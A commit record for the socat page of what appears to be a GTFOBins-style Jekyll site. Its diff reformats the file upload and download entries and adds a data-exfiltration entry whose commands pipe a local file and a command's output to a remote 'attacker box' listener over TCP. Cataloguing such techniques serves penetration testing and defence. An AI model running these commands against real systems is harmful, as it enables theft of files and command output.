

Before and after one commit to GTFOud/GTFOud.github.io, a Jekyll site: the page built from _gtfoud/socat.md, in a window 1280 px wide. Shown: the part 335-1015 px from the top of the page, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 900 px from its top, so only the background shows below that.

Commit message:
Update socat.md

```diff
--- a/_gtfoud/socat.md
+++ b/_gtfoud/socat.md
@@ -1,11 +1,15 @@
 ---
 functions:
   file-upload:
-    - description: Run ``socat -u tcp-listen:12345,reuseaddr open:$NFILE,creat`` on the attacker box to collect the file.
+    - description: Run `socat -u tcp-listen:4444,reuseaddr open:$NFILE,creat` on the attacker box to collect the file.
       code: |
         socat -u file:$LFILE tcp-connect:$RHOST:$RPORT
   file-download:
-    - description: Run ``socat -u file:$LFILE tcp-listen:4444,reuseaddr`` on the attacker box to send the file.
+    - description: Run `socat -u file:$LFILE tcp-listen:4444,reuseaddr` on the attacker box to send the file.
       code: |
         socat -u tcp-connect:$RHOST:$RPORT open:$NFILE,creat
+  data-exfiltration:
+    - description: Run `socat -u TCP-LISTEN:4444,fork STDOUT` on the attacker box to output the data or `socat -u TCP-LISTEN:4444,fork CREATE:$NFILE` to save it directly into a file.
+      code: |
+        cat $LFILE <($CMD) | socat -u STDIN TCP:$RHOST:4444
 ---
```
